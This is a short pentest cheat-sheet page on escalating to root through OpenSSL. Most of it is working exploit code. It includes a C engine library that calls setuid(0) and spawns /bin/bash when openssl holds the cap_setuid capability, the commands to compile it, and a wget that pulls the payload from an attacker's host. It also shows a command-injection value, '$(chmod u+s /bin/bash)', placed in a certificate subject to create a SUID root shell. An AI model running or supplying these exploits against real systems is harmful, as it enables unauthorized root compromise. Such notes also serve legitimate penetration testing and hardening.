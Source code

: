 ```yaml
---
title: OpenSSL Privilege Escalation
description:
tags:
    - Privilege Escalation
refs:
date: 2023-03-09
draft: false
---
```


## Privilege Escalation (SUID)

Reference: [https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/)

### 1. Get Capabilities

Chack capabilities in the target machine.

```sh
# -r: recursive
getcap -r / 2>/dev/null
```

If you see the openssl has the capability set as below, you can successfully exploit it.

```sh
/usr/bin/openssl = cap_setuid+ep
```

### 2. Create the Exploit in C

In local machine, you need to have “libssl-dev” to use the header file named “openssl/engine.h” in the exploit.  
If you don't have it yet, install it.

```sh
sudo apt install libssl-dev
```

Then create "exploit.c".

```c
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id) {
    setuid(0); setgid(0);
    system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

Now compile it using gcc.

```sh
# -fPIC: for generating a shared object (PIC: Position Independent Code)
# -c: compile and assemble, but do not link.
gcc -fPIC -o exploit.o -c exploit.c
# -shared: create a shared library.
gcc -shared -o exploit.so -lcrypto exploit.o
```

### 3. Get the Root Shell

Transfer the "exploit.so" to the target machine.

```sh
wget http://<local-ip>:8000/exploit.so
```

Run the exploit and finally you should get the root shell.

```sh
# req: PKCS#10 X.509 Certificate Signing Request (CSR) Management.
# engine: Engine (loadable module) information and manipulation.
openssl req -engine ./exploit.so
```

<br />

## Command Injection in Subject

```bash
openssl x509 -in /opt/example.crt -noout -subject
```

If the above command is executed by root and use values of subjects in any way, we might be able to execute arbitrary command as root.  

### Exploitation

For example, create a certificate that contains the malicious subject value.  
When the prompt asks us to enter values, we can insert arbitrary command.

```bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /opt/example.key -out /opt/example.crt -days 1

...
Common Name (e.g. server FQDN or YOUR name) []:$(chmod u+s /bin/bash)
...
```

Then some shell script, that uses the subject values, is executed as root, our command (**`$(chmod u+s /bin/bash)`**) may be executed as root.